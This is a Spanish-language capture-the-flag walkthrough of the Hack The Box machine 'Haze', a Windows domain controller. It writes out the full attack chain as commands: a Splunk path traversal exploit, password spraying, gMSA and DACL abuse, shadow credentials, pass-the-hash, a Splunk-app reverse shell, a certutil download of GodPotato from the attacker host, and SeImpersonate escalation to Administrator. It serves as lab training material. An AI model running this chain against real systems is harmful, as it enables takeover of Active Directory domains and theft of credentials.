


Mi primera maquina Windows y difícil jajaja no existe una mejor forma de empezar que a puro golpe y topones de pared, así que si digo mal conceptos pues perdón 

# Reconocimiento 

Usando Nmap empezaremos el reconocimiento de puertos para saber a que nos estamos enfrentado 

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG PortsOpen 10.10.11.61

Ports: 
53/open/tcp//domain///, 
88/open/tcp//kerberos-sec///,
135/open/tcp//msrpc///, 
139/open/tcp//netbios-ssn///, 
389/open/tcp//ldap///, 
445/open/tcp//microsoft-ds///, 
464/open/tcp//kpasswd5///, 
593/open/tcp//http-rpc-epmap///, 
636/open/tcp//ldapssl///, 
3268/open/tcp//globalcatLDAP///, 
3269/open/tcp//globalcatLDAPssl///, 
5985/open/tcp//wsman///, 
8000/open/tcp//http-alt///, 
8088/open/tcp//radan-http///, 
8089/open/tcp/////, 
9389/open/tcp//adws///, 
47001/open/tcp//winrm///, 
49664/open/tcp/////, 
49665/open/tcp/////, 
49666/open/tcp/////, 
49667/open/tcp/////, 
49668/open/tcp/////, 
59000/open/tcp/////, 
59007/open/tcp/////, 
59009/open/tcp/////, 
59012/open/tcp/////, 
59022/open/tcp/////, 
59039/open/tcp/////, 
59042/open/tcp/////, 
59111/open/tcp/////
```

Tenemos muchísimos, es normal ver esto en las máquinas Windows con un DC 

```bash

nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,8000,8088,8089,9389,47001,49664,49665,49666,49667,49668,59000,59007,59009,59012,59022,59039,59042,59111 -oN PortsInfo 10.10.11.61

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-15 05:10:41Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http          Splunkd httpd
|_http-server-header: Splunkd
| http-title: Site doesn t have a title (text/html; charset=UTF-8).
|_Requested resource was http://splunkd.htb:8000/en-US/account/login?return_to=%2Fen-US%2F
| http-robots.txt: 1 disallowed entry 
|_/
8088/tcp  open  ssl/http      Splunkd httpd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
|_http-title: 404 Not Found
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
8089/tcp  open  ssl/http      Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
59000/tcp open  msrpc         Microsoft Windows RPC
59007/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
59009/tcp open  msrpc         Microsoft Windows RPC
59012/tcp open  msrpc         Microsoft Windows RPC
59022/tcp open  msrpc         Microsoft Windows RPC
59039/tcp open  msrpc         Microsoft Windows RPC
59042/tcp open  msrpc         Microsoft Windows RPC
59111/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 8h00m02s
| smb2-time: 
|   date: 2025-06-15T05:11:40
|_  start_date: N/A

```

# Resumen de Escaneo Nmap

| Puerto/Protocolo    | Estado | Servicio      | Versión/Detalles                                                                                                                                     |
| :------------------ | :----- | :------------ | :--------------------------------------------------------------------------------------------------------------------------------------------------- |
| **53/tcp**          | open   | domain        | Simple DNS Plus                                                                                                                                      |
| **88/tcp**          | open   | kerberos-sec  | Microsoft Windows Kerberos (server time: 2025-06-15 05:10:41Z)                                                                                       |
| **135/tcp**         | open   | msrpc         | Microsoft Windows RPC                                                                                                                                |
| **139/tcp**         | open   | netbios-ssn   | Microsoft Windows netbios-ssn                                                                                                                        |
| **389/tcp**         | open   | ldap          | Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name). Certificado `dc01.haze.htb`. Válido hasta 2026-03-05.   |
| **445/tcp**         | open   | microsoft-ds? |                                                                                                                                                      |
| **464/tcp**         | open   | kpasswd5?     |                                                                                                                                                      |
| **593/tcp**         | open   | ncacn_http    | Microsoft Windows RPC over HTTP 1.0                                                                                                                  |
| **636/tcp**         | open   | ssl/ldap      | Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name). Certificado `dc01.haze.htb`. Válido hasta 2026-03-05.   |
| **3268/tcp**        | open   | ldap          | Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name). Certificado `dc01.haze.htb`. Válido hasta 2026-03-05.   |
| **3269/tcp**        | open   | ssl/ldap      | Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name). Certificado `dc01.haze.htb`. Válido hasta 2026-03-05.   |
| **5985/tcp**        | open   | http          | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP). Título HTTP: Not Found.                                                                                     |
| **8000/tcp**        | open   | http          | Splunkd httpd. Título HTTP: "Site doesn't have a title". Robots.txt: 1 entrada no permitida (`/`).                                                   |
| **8088/tcp**        | open   | ssl/http      | Splunkd httpd. Certificado `SplunkServerDefaultCert`. Válido hasta 2028-03-04. Título HTTP: 404 Not Found. Robots.txt: 1 entrada no permitida (`/`). |
| **8089/tcp**        | open   | ssl/http      | Splunkd httpd. Certificado `SplunkServerDefaultCert`. Válido hasta 2028-03-04. Título HTTP: splunkd. Robots.txt: 1 entrada no permitida (`/`).       |
| **9389/tcp**        | open   | mc-nmf        | .NET Message Framing                                                                                                                                 |
| **47001/tcp**       | open   | http          | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP). Título HTTP: Not Found.                                                                                     |
| **49664-49668/tcp** | open   | msrpc         | Microsoft Windows RPC                                                                                                                                |
| **59000/tcp**       | open   | msrpc         | Microsoft Windows RPC                                                                                                                                |
| **59007/tcp**       | open   | ncacn_http    | Microsoft Windows RPC over HTTP 1.0                                                                                                                  |
| **59009/tcp**       | open   | msrpc         | Microsoft Windows RPC                                                                                                                                |
| **59012/tcp**       | open   | msrpc         | Microsoft Windows RPC                                                                                                                                |
| **59022/tcp**       | open   | msrpc         | Microsoft Windows RPC                                                                                                                                |
| **59039/tcp**       | open   | msrpc         | Microsoft Windows RPC                                                                                                                                |
| **59042/tcp**       | open   | msrpc         | Microsoft Windows RPC                                                                                                                                |
| **59111/tcp**       | open   | msrpc         | Microsoft Windows RPC                                                                                                                                |

---

### Información Adicional del Host:

* **Sistema Operativo:** Windows
* **Nombre de Host:** DC01
* **Seguridad SMB2:** Firma de mensajes habilitada y requerida.
* **Desviación de Reloj:** 8 horas, 0 minutos, 2 segundos.
* **Fecha SMB2:** 2025-06-15T05:11:40


 
Mucha Información, empecemos por partes el nombre del dominio es **`dc01.haze.htb`** el cual meteremos dentro de nuestro **/etc/host** 

Una vez con esto podemos entrar a los servicios de alojamiento de paginas que están por el puerto **8000, 8088 y 8089** 

# splunk 

Tenemos una plataforma llamada Splunk enterprose por el puerto **8000, 8088, 8089**:

Splunk Enterprise es una plataforma de análisis de datos diseñada para buscar, analizar y visualizar datos generados por máquinas, como registros de aplicaciones, datos de infraestructura y datos de seguridad. En esencia, Splunk Enterprise ayuda a las organizaciones a extraer valor de sus datos, permitiéndoles monitorear, buscar, analizar y actuar sobre la información en tiempo real. 


Por el puerto **8089** encontraremos la versión del servicio splunk que corresponde a la 9.2.1


# Splunk Path Traversal Exploit (CVE-2024-36991)

Esta versión es vulnerable a un Path Traversal, en la cual podemos apuntar a varios archivos de la maquina , usaremos la herramienta siguiente -> https://github.com/jaytiwari05/CVE-2024-36991

Cuando la ejecutemos nos dará los link donde podremos observar los recursos que ha encontrado 

```bash 
python3 exploit.py -u http://splunkd.htb:8000/ -s 1
```


Y para visualizarlos simplemente pegaremos las ruta en el navegador 


Tenemos tres archivos importantes en los cuales se muestran

Usuarios(contraseñas encriptadas):


El secreto para descifrar contraseñas:


Y una contraseña:


A descifrar se ha dicho, usaremos un script de Python que conseguiremos por este medio https://github-com.translate.goog/HurricaneLabs/splunksecrets?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

Su uso es muy fácil:

1 .-Instala usando Python3 pip(si tienes Parrot Os usa un entorno virtual)
2.- Ejecuta lo siguiente: 

```bash
splunksecrets splunk-decrypt -S scret.secret
```


Y obtenemos una contraseña con la cual podemos conectarnos al servicio de LDAP 

# Entrando en LDAP 

Podemos intentar conectarnos para saber si estas credenciales son validas(si lo son):

```bash
nxc smb dc01.haze.htb -u 'user' -p 'passwd'
```


Listaremos los usuarios que existen dentro del servidor  


con esto podemos generar un diccionario de usuarios y probar contraseñas 


y con esta lista o diccionario podemos hacer una ataque de fuerza bruta y comprobar si otro usuario tiene la misma contraseña:

```bash
nxc smb haze.htb -u users.txt -p 'passwd' --continue-on-succes
```


ok el usuario de mark.adams usa esta misma contraseña lo cual es una mala practica pero una gran brecha para nosotros, para tener mas información en general acerca de los grupos de usuarios y como están estructurados usaremos la herramienta de ldapdomaindump el cual nos dará la información general de todos los usuarios del DC en varios formatos en mi caso ocupare los .html para moverlos en la carpeta de /var/www/html y con Apache visualizarlos 

```bash
ldapdomaindump -u 'haze.htb\mark.adams' -p 'Ld@p_Auth_S' 10.10.11.61
```


De esta manera sabemos que el usuario de Mark Adams pertenece al grupo de gMSA_Managers y al Remote Management 


**gMSA_Managers** significa que ese usuario tiene **permisos para gestionar o administrar las Group Managed Service Accounts (gMSA)** en el dominio de Active Directory.


**Remote Management Users**, significa que ese usuario tiene **permiso para realizar la administración remota de ese sistema específico utilizando WinRM (Windows Remote Management)**.


# Dentro de Haze.htb

Usando las credenciales de mark.adams nos conectaremos con WinRM

```bash 
evil-winrm -i 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1un'
```

Felicidades estas dentro del servidor, ahora debemos de elevar los privilegios 


Contamos con los siguientes usuarios, y como la Flag no esta en nuestro escritorios, tendremos que elevar los privilegios ya sea para convertirnos en Edward o alexander 


# Explotando gMSA 

El usuario de mark.adams tiene un permiso especial y es el siguiente 


El gMSA (Group Managed Service Account) sirve para que Windows administre automáticamente las contraseñas de los servicios.
En lugar de que tú tengas que cambiar manualmente las contraseñas de las cuentas que usan los servicios (como IIS, SQL Server, etc.), el sistema lo hace solo cada 30 días. Esto mejora la seguridad y reduce el trabajo administrativo.
Se usa principalmente para servicios que corren en múltiples servidores y necesitan las mismas credenciales.

El comando `Get-ADServiceAccount -Filter *` es un cmdlet de PowerShell que forma parte del módulo Active Directory.

**¿Para qué sirve?** Este comando obtiene información sobre todas las cuentas de servicio administradas (Managed Service Accounts) que existen en Active Directory.

Se utiliza principalmente para auditoría, inventario o administración de cuentas de servicio en un dominio de Active Directory, permitiendo a los administradores ver qué servicios están configurados y su estado actual.

Con esta explicación podemos ver que existe un usuario llamado Haze-IT-Backup, por lo general los usuario de Backus tiene permisos especiales 


## Usando gMSADumper.py

Usaremos la herramienta de gMSADumper.py para tratar de ver la contraseña de este usuario, pero por desgracia no podemos, solo lo pueden ver los usuarios Administradores  


Pero aquí no acaba esto, ya que si pertenecemos al usuario de gMSA podemos darnos el permiso a nosotros mismos para ver la contraseñas 


```PowerShell
Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
```

```PowerShell
Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword
```


A ejecutar de nuevo el **gMSADumper.py**, y esta vez obtendremos el hash NT del usuario Haze-IT-Backup



Al igual que cunado usamos Ldapdomaindump podemos hacer lo mismo pero ahora con el usuario de **Haze-IT-Backup$** para actualizar la información 

```bash
bloodhound-python -u 'Haze-IT-Backup$' --hashes :4de830d1d58c14e241aff55f82ecdba1 -d haze.htb -ns 10.10.11.61 -c all --dns-tcp
```

Esto nos crea varios archivos .json y yo no sabia hasta apenas pero estos archivos pueden ser usados en la misma aplicación de  bloodhound y Neo4j para visualizarlos, ayuda bastante la verdad  


Con esto encontramos una relación bastante interesante para pasar de **Haze-IT-Backup$** ->**edward.martin**  a través del grupo de **support_service** 


**Lo que significa:**

- **HAZE-IT-BACKUP$** (tu cuenta gMSA - círculo verde con "owned")
- **Tiene relación "WriteDacl"** (flecha gris)
- **Hacia [SUPPORT_SERVICES@HAZE.HTB](mailto:SUPPORT_SERVICES@HAZE.HTB)** (círculo amarillo - otro grupo)

**¿Qué es "WriteDacl"?** **WriteDacl** significa que `Haze-IT-Backup$` puede **modificar los permisos (ACLs)** del grupo `SUPPORT_SERVICES`.

**¿Cómo explotarlo?** Puedes usar esta relación para:

1. **Añadirte al grupo SUPPORT_SERVICES**
2. **O darle a otro usuario permisos sobre ese grupo**
3. **Heredar los privilegios** que tenga SUPPORT_SERVICES


¡**Increíble!** Esto es aún **más poderoso** que WriteDacl. Te explico esta cadena de ataque:

**La relación completa:**

1. **SUPPORT_SERVICES** → **ForceChangePassword** → **[EDWARD.MARTIN@HAZE.HTB](mailto:EDWARD.MARTIN@HAZE.HTB)**
2. **SUPPORT_SERVICES** → **AddKeyCredentialLink** → **[EDWARD.MARTIN@HAZE.HTB](mailto:EDWARD.MARTIN@HAZE.HTB)**

**¿Qué significa esto?**

**ForceChangePassword:**

- El grupo SUPPORT_SERVICES puede **forzar un cambio de contraseña** en edward.martin
- **No necesitas la contraseña actual** - puedes asignar una nueva

**AddKeyCredentialLink:**

- Puede **añadir credenciales de clave** (certificados/llaves) a edward.martin
- Útil para **autenticación sin contraseña**


# Shadow Credentials

Ahora que ya sabemos como están relacionados los usuarios y como podemos realizar el ataque procederemos hacer de la siguiente manera 

Importante: vamos a ocupar las siguientes herramientas en Python así que prepárate para usar entornos virtuales y no te desesperes ANIMO

```bash
bloodAD 

impacket-dacledit or dacledit.py

pywhisker.py

certipy
```

## Pasos de la Escalada

### 1. **Modificación de Propietario del Grupo**

```bash
bloodyAD --host "10.xxx.xxx.xxx" -d "haze.htb" -u "Haze-IT-Backup$" -p ":735c0xxxx" set owner SUPPORT_SERVICES Haze-IT-Backup$
```


- Establece a `Haze-IT-Backup$` como propietario del grupo `SUPPORT_SERVICES`
- Esto es crucial porque el propietario puede modificar permisos

### 2. **Asignación de Permisos Completos**


```bash
impacket-dacledit -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip 10.10.11.61 "haze.htb/Haze-IT-Backup$" -hashes ':4de830d1d58c14e241aff55f82ecdba1'
```


### impacket-dacledit Not Found---------------------------------

En caso de que no puedas usar impacket-dacledit (como a mi me paso por usar Parrot) clona el repositorio 

- **Clonar el repositorio de Impacket:** Vamos a descargar el código fuente de Impacket en el directorio que acabamos de crear.
    ```
    cd ~/tools
    git clone https://github.com/SecureAuthCorp/impacket.git
    ```

- **Crear y activar el entorno virtual:** Esto creará un entorno Python aislado llamado `venv_impacket` dentro del directorio de Impacket. Después, lo activaremos para que cualquier comando de `pip` o `python` que ejecutes afecte solo a este entorno.

    ```
    cd ~/tools/impacket
    python3 -m venv venv_impacket
    source venv_impacket/bin/activate
    ```
    
    Verás que tu prompt de la terminal cambiará, probablemente mostrando `(venv_impacket)` al principio, indicando que el entorno virtual está activo.
    
- **Instalar las dependencias e Impacket dentro del entorno virtual:** Ahora, con el entorno virtual activo, instalaremos todas las librerías que Impacket necesita, y luego el propio Impacket.
    ```
    pip install -r requirements.txt
    pip install .
    ```

```bash
python3 dacledit.py -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=HAZE,DC=HTB' -dc-ip 10.10.11.61 "haze.htb/Haze-IT-Backup$" -hashes ':4de830d1d58c14e241aff55f82ecdba1'
```
### -------------------------------------------------------------------------


- Otorga control total (`FullControl`) sobre el grupo `SUPPORT_SERVICES`
- Modifica las ACL (Access Control Lists) del directorio

### 3. **Adición al Grupo de Soporte**

```bash
bloodyAD --host "10.10.11.61" -d "haze.htb" -u "Haze-IT-Backup$" -p ":735c0" add groupMember SUPPORT_SERVICES Haze-IT-Backup$
```


- Se agrega a sí mismo al grupo `SUPPORT_SERVICES`
- Ahora tiene los privilegios de este grupo

### 4. **Ataque Shadow Credentials**

```bash
python3 pywhisker.py -d "haze.htb" -u "Haze-IT-Backup$" --target edward.martin --action add
```


Nos generara tres archivo y el que vamos a necesitar el .pfx


- **Shadow Credentials**: Técnica que explota la autenticación PKINIT de Kerberos
- Añade una clave criptográfica falsa al atributo `msDS-KeyCredentialLink` de edward.martin
- Genera un certificado PFX que puede usar para autenticarse como edward

### 5. **Obtención del TGT (Ticket Granting Ticket)**

Los archivos que obtenemos son 3 de esos tres el que nos interesa es el .pfx pero esta protegido con contraseña para evitar problemas se la quitaremos 

```bash
openssl pkcs12 -in fZ2UrXB8.pfx -out temp.pem -passin pass:fE2aQfpBSKj7LTArPaSW -passout pass:
```

```bash
openssl pkcs12 -export -in temp.pem -out QmBfTWEv_nopass.pfx -passout pass:
```


y este es el que ocuparemos con la herramienta de certipy  

```bash
certipy auth -pfx /home/s4nti/Desktop/machines_htb/Haza/script/certificado/QmBfTWEv_nopass.pfx -username edward.martin -domain haze.htb -dc-ip 10.10.11.61 -debug
```

- Usa el certificado generado para solicitar un TGT válido
- Se autentica como edward.martin sin conocer su contraseña


Y nos conectamos 

```bash
evil-winrm -i 10.10.11.61 -u edward.martin -H 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

y obtenemos la primera Flag



# Administrator pwned 


Ahora con este usuario podemos entrar a la carpeta de backups donde podremos encontrar un .zip y como es un respaldo, por lo general encontramos informacion muy importante, para facilitar las cosas lo descargaremos en nuestra maquina 

 ```bash
 download C.\Ruta\zip
```


Una vez que descomprimimos el .zip, tenemos una buena cantidad de archivos, por lo cual el revisar uno por uno no va a  ser factible por lo cual tenemos que usar a nuestro querido amgo grep

```bash
grep -rI '\$1\$'
```

Ojito con lo que encontramos 


Si miramos el archivo, la contraseña es para un usuario llamado alexander.green perteneciente al grupo de Splunk_Admins 


Una vez encontrado la contraseña cifrada debe de estar por aquí la llave para poder descifrar como lo hicimos al principio, con la herramienta de **splunksecrets**


Con la contraseña obtenida veremos para que nos sirve, lo primero a probar es conectarnos a la maquina, pero lastima por aquí no es 


Pero si para Loggearnos en la pagina de Splunk por el puerto 8000


Ahora bien que hacemos aquí, el servicio lo esta ejecutando un usuario, el cual no es mark.adams ni edward.martin y Administrator lo dudo, seria un error fatal por descrato el usuario alexander.green puede ser

Splunk al igual que varias plataformas que permiten instalar aplicaciones por medio de un .zip, tenemos la oportunidad de subir una reverse shell, podemos indagar mas sobre esto, en el siguiente repo de GitHub:

https://github.com/0xjpuff/reverse_shell_splunk

clonamos el repo y vamos a ocupar/modificar son el rev.py y el run.ps1, el run.bat no lo toques


y el **inputs.conf** déjalo como esta


la carpeta conviértele en .zip y después renómbrala a .spl 


En la plataforma dirigente a Manage Apps


Carga el comprimido .spl:


Si todo salió bien lo veras en la lista de la aplicaciones, aclaro que antes de poner Upload te pongas en escucha por el puerto que pusiste en el rev.py y run.ps1


Nos conectamos exitosamente como alexander.green


Verificamos los permisos de este usuario:

```powershell
whaomi /all
```

Pero con cuidado, que tenemos aquí, un permiso de tipo **SeImpersonatePrivilege** 

El **SeImpersonatePrivilege** es un privilegio de seguridad en Windows que permite a un proceso actuar en nombre de otro usuario o cuenta. Aquí te explico sus características principales:


Para ir a tiro hecho, usaremos la herramienta de GodPotato aqui se muestra como la puedes transferir de tu maquina atacante a la maquina victima :

```powershell
certutil -urlcache -f http://10.10.16.5:8000/GodPotato-NET4.exe gp.exe
```


Y para ver la Flag del usario Administrator 

```powershell
./gp.exe -cmd 'cmd /c type C:\Users\Administrator\Desktop\root.txt'
```


Felicidades Haze has been Pwned!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!


#Windows #CVE #ShadowCredential #Python #nxc #gMSA #EnumerationSMB #ldapdomaindump #GodPotato #SeImpersonatePrivilege 